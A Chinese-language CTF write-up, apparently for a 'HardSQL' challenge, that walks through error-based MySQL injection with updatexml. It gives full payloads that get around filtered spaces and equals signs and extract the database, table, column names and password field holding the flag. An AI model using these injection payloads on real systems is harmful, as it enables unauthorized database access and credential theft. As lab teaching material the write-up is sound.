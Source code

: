 测出来一大波都不能用，union，=号都没有逃过一劫。但是报错注入的灵魂函数之一[updatexml](https://www.cnblogs.com/c1047509362/p/12806297.html)可以用，考点是啥不言而喻了吧？参考波[wp](https://blog.csdn.net/l2872253606/article/details/125151924),空格被过滤了，用括号绕过。

- 'or(updatexml(0,concat(0x5e,database()),0))#

0x5e在updataxml中不合法，于是报错，报错时会把敏感信息带出来。爆完库名geek，爆表。=号被过滤了不要慌，[like](https://blog.csdn.net/c_base_jin/article/details/74360242)绕过。

- 1'or(updatexml(0,concat(0x5e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek'))),0))#

报错注入没啥说的，跟union一样有格式，要爆的内容方concat第二个参数就得了，该怎么查询就怎么查询。得到表名H4rDsq1。继续爆字段。

- 1'or(updatexml(0,concat(0x5e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1'))),0))#

flag应该在password里吧，如果不在也能一个一个试，报错注入效率也是挺高的。

- 1'or(updatexml(0,concat(0x5e,(select(group_concat(password))from(H4rDsq1))),0))#

因为报错只能回显有限数量的字符（32位），所以我们只有半个flag。没关系，用[right](https://www.yiibai.com/sql/sql-right-function.html)函数截取flag右边缺少的部分。

- 1'or(updatexml(0,concat(0x5e,right((select(group_concat(password))from(H4rDsq1)),31)),0))#

去除重复部分拼接起来就是flag。